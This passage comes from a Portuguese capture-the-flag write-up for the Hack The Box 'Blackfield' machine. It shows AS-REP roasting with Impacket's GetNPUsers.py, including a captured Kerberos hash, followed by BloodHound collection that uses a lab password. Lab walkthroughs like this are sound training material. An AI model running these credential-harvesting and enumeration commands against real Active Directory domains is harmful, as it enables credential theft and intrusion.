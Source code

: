 ## AS-REP Roasting Attack

O novo ataque AS-RES Roasting naõ revela mais nada, apenas mostra outro TGT (porque a data/hora/min/seg é usado para gerar cada TGT) do mesmo usuário "support", mas confirma que todos os outros usuários existem.

```powershell
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

#>  [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
#>  [-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  $krb5asrep$23$support@BLACKFIELD.LOCAL:5baf13a3c031e279852b45cf1ca61281$fac4f6c28409e359a6ec955b32220d549295efce799d7491b8f4efdc0635bec21091ba87b29deb78b404242246e6e110bf33bfae560f61bd791a5f495fec9ecb6894615eaa100c40b2016e979f9545509a5892fef429008c70f6b6f335b968176c6670a94079b0f07f8033fb9c8869928e072b82c63a80c50be46bf574081162cbf2f5185abddcc2acdfa539e1b6c9bda807a045f65b191861a6fec9f169f308e4b4eb3a2766f0e1b3ea770684ead927114c05877fe80c42d6f4a8b7c7d6d3b0374bf936a69ed2311b047708be4a292cb827bf27761612d8ebfc898fab971b313eeaca493d8e2a6320965de255021e7677c6f058
#>  [-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
#>  [-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## Bloodhound

Agora que temos acesso ao RPC, e que podemos extrair todas informações públicas a nível de domínio, podemos tratar de gerar uma base de dados para a nossa ferramenta bloodhound, que já usamos em outras máquinas.

```powershell
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192

sudo neo4j start
bloodhound &>/dev/null &
disown
```

![Bloodhound import](Assets/HTB-Windows-Hard-Blackfield/Bloodhound-import.png)
